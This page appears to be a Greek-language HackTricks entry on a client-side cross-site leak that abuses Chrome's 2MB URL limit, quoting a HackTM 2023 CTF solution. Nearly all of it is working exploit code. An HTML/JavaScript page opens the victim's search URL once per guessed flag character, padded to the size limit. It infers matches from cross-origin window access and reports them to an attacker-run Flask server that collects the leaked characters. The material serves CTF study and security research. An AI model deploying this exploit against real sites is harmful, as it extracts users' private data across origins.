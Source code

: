 # URL Max Length - Client Side

{{#include ../../banners/hacktricks-training.md}}

Κώδικας από [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)
```html
<html>
<body></body>
<script>
;(async () => {
const curr = "http://secrets.wtl.pw/search?query=HackTM{"

const leak = async (char) => {
fetch("/?try=" + char)
let w = window.open(
curr + char + "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2)
)

const check = async () => {
try {
w.origin
} catch {
fetch("/?nope=" + char)
return
}
setTimeout(check, 100)
}
check()
}

const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

for (let i = 0; i < CHARSET.length; i++) {
leak(CHARSET[i])
await new Promise((resolve) => setTimeout(resolve, 50))
}
})()
</script>
</html>
```
Αντίκτυπος πλευράς διακομιστή:
```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
global chars

nope = request.args.get('nope', '')
if nope:
chars.append(nope)

remaining = [c for c in CHARSET if c not in chars]

print("Remaining: {}".format(remaining))

return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
return open('exploit.html', 'r').read()

if __name__ == '__main__':
app.run(host='0.0.0.0', port=1337)
```
{{#include ../../banners/hacktricks-training.md}}
